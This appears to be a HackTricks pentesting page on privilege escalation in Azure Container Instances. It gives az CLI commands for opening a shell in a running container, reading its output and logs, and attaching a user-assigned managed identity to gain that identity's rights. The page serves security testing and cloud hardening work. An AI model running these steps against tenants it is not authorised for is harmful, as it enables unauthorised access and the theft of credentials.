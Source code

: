# Az - Azure Container Instances, Apps & Jobs Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Instances, Apps & Jobs

Fore more information check:

{{#ref}}
../az-services/az-container-instances-apps-jobs.md
{{#endref}}

## ACI

### `Microsoft.ContainerInstance/containerGroups/read`, `Microsoft.ContainerInstance/containerGroups/containers/exec/action`

These permissions allow the user to **execute a command** in a running container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

To get a shell is as simple as:

```bash
az container exec --name <container-name> --resource-group <res-group>  --exec-command '/bin/sh'
```

It's also possible to **read the output** of the container with:

```bash
az container attach --name <container-name> --resource-group <res-group>
```

Or get the logs with:

```bash
az container logs --name <container-name> --resource-group <res-group>
```

### `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permissions allows to **attach a user managed identity** to a container group. This is very useful to escalate privileges in the container.

To attach a user managed identity to a container group:

```bash
az rest \
  --method PATCH \
  --url "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerInstance/containerGroups/<container-name>?api-version=2021-09-01" \
  --body '{
    "identity": {
      "type": "UserAssigned",
      "userAssignedIdentities": {
        "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>": {}
      }
    }
  }' \
  --headers "Content-Type=application/json"
```
